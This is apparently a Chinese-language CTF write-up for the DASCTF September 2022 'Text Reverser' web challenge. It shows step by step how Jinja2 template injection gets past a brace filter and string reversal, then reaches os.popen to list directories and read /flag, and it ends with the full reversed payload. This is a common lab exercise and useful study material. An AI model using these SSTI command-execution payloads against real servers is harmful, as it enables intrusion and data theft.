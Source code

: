 ```yaml
---
title: DASCTF 2022年9月赛复现
date: '2022/10/16 19:33:01'
categories:
  - - CTF
description: DASCTF 2022年9月赛复现
tags:
---
```


# DASCTF 2022年9月赛复现

## WEB

### Text Reverser

测试一下发现是模板注入，估计使用了 jinja2 模板

- 先用```{{ 3*3 }}```测试一下，然后发现有过滤

- 用 ```{% %}``` 替换 ```{{ }}```来绕过

- 发现绕是绕过去了，但是没有预期中的执行，观察到 output 出来的东西，是反着的，联想到题目叫 Text Reverser，想着是不是需要反转字符串输入

- 用 ```{% if 1 %}123{% endif %}``` 逆转过来的字符串测试一下，发现能执行

- 配合 print 进行输出，使用 ```{% print(''.__class__) %}``` 的反转

- 寻找子类 ```{% print(''.__class__.__base__.__subclasses__()) %}```

- 这里使用第213个子类，也就是```<class 'warnings.catch_warnings'>```这个子类
 ```{% print(''.__class__.__base__.__subclasses__()[213]) %}```

- 查看当前目录下文件
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')) %}```

- 查看根目录下文件 
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /").read()')) %}```

- 发现cat指令被过滤了，用```nl```代替```cat```读取文件，得到 flag
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("nl /flag").read()')) %}```

整体 payload 如下

```python
}% fidne %{321}% 1 fi %{

}% )__ssalc__.''(tnirp %{

}% ))(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% )]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"sl"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"/ sl"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"galf/ ln"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{
```

